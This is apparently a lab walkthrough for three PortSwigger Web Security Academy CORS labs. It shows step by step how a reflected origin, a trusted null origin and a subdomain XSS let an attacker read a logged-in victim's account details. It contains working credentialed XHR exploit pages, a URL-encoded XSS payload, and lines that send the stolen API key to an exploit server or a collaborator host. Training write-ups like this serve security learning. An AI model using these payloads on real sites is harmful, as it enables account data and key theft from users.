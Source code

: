 # Navigation
- [CORS vulnerability with basic origin reflection](#cors-vulnerability-with-basic-origin-reflection)
- [CORS vulnerability with trusted null origin](#cors-vulnerability-with-trusted-null-origin)
- [CORS vulnerability with trusted insecure protocols](#cors-vulnerability-with-trusted-insecure-protocols)
# CORS vulnerability with basic origin reflection
- Retrieve API key
1. Login and view account
2. Identify a subsequent request in Burp which retrieves users API key
```
GET /accountDetails
```
3. Provide an arbitrary Origin header and confirm it is reflected in the HTTP response
```
# Request
Origin: https://example.com

# Response
Access-Control-Allow-Origin: https://example.com
Access-Control-Allow-Credentials: true
```
4. Because arbitrary origins are reflected and that credentials can be included (i.e. Cookies), we can host a malicious page to make users send their HTTP response to our own server
5. Host a malicious page
```html
<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://0af60052036fdad380450d6d00990076.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
	location='https://exploit-0a2300450380da1a80fd0c7901500045.exploit-server.net/log?key='+btoa(this.responseText);
};
</script>
```
6. Deliver exploit to victim
7. Check server logs > Decode base64 text and retrieve API key
# CORS vulnerability with trusted null origin
- Retrieve API key
1. Login and view account
2. Identify a subsequent request in Burp which retrieves users API key
```
GET /accountDetails
```
3. Provide a null origin header and confirm it is reflected in the HTTP response
```
# Request
Origin: null

# Response
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```
4. Because null origins are allowed as well as credentials, we can use a sandboxed iframe to perform a "null" origin request and send the response to our attacking server
```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='malicious-website.com/log?key='+this.responseText;
};
</script>"></iframe>
```
5. Send exploit to victim
6. Check access log > Decode base64 text > Retrieve API key
# CORS vulnerability with trusted insecure protocols
- Retrieve API key
1. Login and view account
2. Identify subsequent request in Burp which retrieves users API key
```
GET /accountDetails
```
3. Providing arbitrary origin does not reflect in the HTTP response
4. Providing an arbitrary sub-domain does reflect in the HTTP response however
```
# Request
Origin: https://deez.0af2006b04361107805f17a9006c0079.web-security-academy.net

# Response
Access-Control-Allow-Origin: https://deez.0af2006b04361107805f17a9006c0079.web-security-academy.net
```
5. Checking the stock of an item opens a new page with two parameters
6. `productId` parameter is vulnerable to XSS
```
GET /?productId=<script>alert(document.domain)</script>&storeId=1
```
7. Use this vulnerability to make a victim request the `accountDetails` endpoint and send their API key to our sever
8. Create a malicious HTML document with a CORS payload inside the vulnerable parameter of the stock
```html
<script>
window.location = "http://stock.0af2006b04361107805f17a9006c0079.web-security-academy.net/?productId=<script>
const request = new XMLHttpRequest()
request.open("get","https://0af2006b04361107805f17a9006c0079.web-security-academy.net/accountDetails", true)
request.onload = () => {
fetch("https://f5lr5impd2tzad8jsa8txsu2ptvkjh76.oastify.com", {
mode: "no-cors",
method: "POST",
body: request.responseText
});
}
request.withCredentials = true
request.send()
</script>&storeId=1"
</script>
```
9. URL encode the XSS payload
```html
<script>
    window.location = "http://stock.0af2006b04361107805f17a9006c0079.web-security-academy.net/?productId=%3c%73%63%72%69%70%74%3e%0a%09%63%6f%6e%73%74%20%72%65%71%75%65%73%74%20%3d%20%6e%65%77%20%58%4d%4c%48%74%74%70%52%65%71%75%65%73%74%28%29%0a%09%72%65%71%75%65%73%74%2e%6f%70%65%6e%28%22%67%65%74%22%2c%22%68%74%74%70%73%3a%2f%2f%30%61%66%32%30%30%36%62%30%34%33%36%31%31%30%37%38%30%35%66%31%37%61%39%30%30%36%63%30%30%37%39%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%61%63%63%6f%75%6e%74%44%65%74%61%69%6c%73%22%2c%20%74%72%75%65%29%0a%09%72%65%71%75%65%73%74%2e%6f%6e%6c%6f%61%64%20%3d%20%28%29%20%3d%3e%20%7b%0a%09%09%66%65%74%63%68%28%22%68%74%74%70%73%3a%2f%2f%66%35%6c%72%35%69%6d%70%64%32%74%7a%61%64%38%6a%73%61%38%74%78%73%75%32%70%74%76%6b%6a%68%37%36%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%22%2c%20%7b%0a%09%09%09%6d%6f%64%65%3a%20%22%6e%6f%2d%63%6f%72%73%22%2c%0a%09%09%09%6d%65%74%68%6f%64%3a%20%22%50%4f%53%54%22%2c%0a%09%09%09%62%6f%64%79%3a%20%72%65%71%75%65%73%74%2e%72%65%73%70%6f%6e%73%65%54%65%78%74%0a%09%09%7d%29%3b%0a%09%7d%0a%09%72%65%71%75%65%73%74%2e%77%69%74%68%43%72%65%64%65%6e%74%69%61%6c%73%20%3d%20%74%72%75%65%0a%09%72%65%71%75%65%73%74%2e%73%65%6e%64%28%29%0a%3c%2f%73%63%72%69%70%74%3e&storeId=1"
</script>
```
10. Send payload to victim
11. Check collaborator history
